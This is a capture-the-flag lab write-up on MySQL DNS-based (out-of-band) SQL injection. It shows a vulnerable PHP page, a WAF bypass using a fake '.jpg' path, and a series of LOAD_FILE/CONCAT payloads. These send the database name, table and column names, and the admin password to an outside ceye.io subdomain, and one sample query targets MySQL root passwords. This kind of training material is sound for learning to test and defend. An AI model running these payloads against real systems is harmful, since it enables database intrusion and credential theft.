





# Lab 4 MySQL DNS Injection

## 0x00 Basic Knowledge

Sometimes we cannot find data display loactions on the website. But we can still try send SELECT data to an external server url and check DNS logs for sensitive data.

### [LOAD_FILE(file_name)][3]

Read and load a local file from localhost. Need exact file path, also need read rights. And MAX_ALLOWED_PACKET should under **1MB**. Otherwise, return NULL.

### Uniform Naming Convention (UNC)

UNC specifies a common syntax to describe the location of a network resource, such as a shared file.

```
\\servername\sharename\directory\filename
```

### DNS Log Platform

[CEYE][4], monitor services for security testing.

### Injection Query

``` sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
```

### Web Application Firewall (WAF)


## 0x01 Go Hack It

Lab site from [zkaq.org][1]

### [Home Page][2]



It also include the source code.

``` php
<?php
$id = @$_GET['id'];
$id = str_replace("AND", "", $id);
if($id < 1){
	echo "<a href=\"?id=1\">点击查看新闻1</a>";
}else{
	$con = mysqli_connect("localhost", "maoshe2", "maoshe2", "maoshe2");
	mysqli_query($con, "set names utf8");
	$rs = mysqli_query($con, "SELECT * FROM `news` WHERE `id`=$id");
	//$row = mysqli_fetch_row($rs);
	//echo $row[1];
}
?>
```

### WAF

Based on the source code, we may try add some padding query after **id=1**

``` sql
?id=1 AND 1=1
```

However, there is a WAF.



### Bypass WAF

Try add gnenral file type paddings such as **txt, jpg, png**, which cannot execute and looks safe for WAF.

``` sql
/test.jpg?id=1 AND 1=1
```



However, there is no display point of the query results. So need to go through DNS Log.

### Register CEYE

Get subdomain **k1e4gl.ceye.io**

### Get TABLE_SCHEMA

``` sql
/test.jpg?id=1 AND (SELECT LOAD_FILE(CONCAT('\\\\',(SELECT DATABASE()),'.k1e4gl.ceye.io\\test')))
```




So **TABLE_SCHEMA** = **mangzhu**

### Get TABLE_NAME

``` sql
/test.jpg?id=1 AND (SELECT LOAD_FILE(CONCAT('\\\\',(SELECT COUNT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE()),'.k1e4gl.ceye.io\\test')))
```


So there are only 2 TABLES. Try OFFSET 0-1.

``` sql
/test.jpg?id=1 AND (SELECT LOAD_FILE(CONCAT('\\\\',(SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE() LIMIT 1 OFFSET 0
),'.k1e4gl.ceye.io\\test')))
```

| OFFSET | TABLE_NAME   |
| ------ | ------------ |
| 0      | admin        |
| 1      | news         |


So the useful **TABLE_NAME** = **admin**

### Get COLUMN_NAME

``` sql
/test.jpg?id=1 AND (SELECT LOAD_FILE(CONCAT('\\\\',(SELECT COUNT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='admin'),'.k1e4gl.ceye.io\\test')))
```


So there are only 3 COLUMNS. Try OFFSET 0-2.

``` sql
/test.jpg?id=1 AND (SELECT LOAD_FILE(CONCAT('\\\\',(SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='admin' LIMIT 1 OFFSET 0),'.k1e4gl.ceye.io\\test')))
```

| OFFSET | COLUMN_NAME  |
| ------ | ------------ |
| 0      | Id           |
| 1      | username     |
| 2      | password     |



### Get FLAG

``` sql
/test.jpg?id=1 AND (SELECT LOAD_FILE(CONCAT('\\\\',(SELECT COUNT(password) FROM admin),'.k1e4gl.ceye.io\\test')))
```


**COUNT(\*)** = **1**

``` sql
/test.jpg?id=1 AND (SELECT LOAD_FILE(CONCAT('\\\\',(SELECT username FROM admin WHERE Id=1),'.k1e4gl.ceye.io\\test')))
```


**username** = **flag**


``` sql
/test.jpg?id=1 AND (SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM admin WHERE Id=1),'.k1e4gl.ceye.io\\test')))
```


**FLAG** = **1flag1good1**

[1]: https://hack.zkaq.org/?a=battle&f=target&id=9b8ee696eb01591e
[2]: http://120.203.13.75:8120/index3.php
[3]: https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file
[4]: http://ceye.io/